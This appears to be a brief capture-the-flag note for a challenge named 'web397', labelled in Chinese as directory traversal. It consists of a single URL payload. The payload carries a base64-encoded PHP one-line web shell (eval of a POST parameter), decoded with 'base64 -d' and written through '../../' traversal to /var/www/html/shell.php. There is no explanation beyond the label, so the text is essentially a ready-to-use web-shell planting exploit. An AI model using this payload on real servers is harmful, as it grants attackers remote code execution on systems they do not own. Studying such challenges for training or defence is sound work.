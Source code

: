 # web397
![](vx_images/336799321807563.png)
目录穿越
```
http://PD9waHAgZXZhbCgkX1BPU1RbJ2MnXSk7Pz4|base64 -d/../../var/www/html/shell.php
```